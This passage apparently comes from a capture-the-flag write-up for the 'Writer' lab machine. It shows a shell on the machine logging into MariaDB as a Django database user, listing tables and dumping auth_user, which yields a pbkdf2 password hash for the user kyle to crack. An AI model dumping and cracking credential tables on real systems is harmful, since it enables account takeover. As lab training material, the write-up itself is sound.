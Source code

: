 - Cracking django hash

```bash
www-data@writer:/tmp$ mysql -u djangouser
```

```ruby
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 90
Server version: 10.3.29-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [dev]> show tables;
+----------------------------+
| Tables_in_dev              |
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
+----------------------------+
10 rows in set (0.000 sec)

MariaDB [dev]> select * from auth_user;
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
| id | password                                                                                 | last_login | is_superuser | username | first_name | last_name | email           | is_staff | is_active | date_joined                |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
|  1 | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= | NULL       |            1 | kyle     |            |           | kyle@writer.htb |        1 |         1 | 2021-05-19 12:41:37.168368 |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
1 row in set (0.000 sec)
```
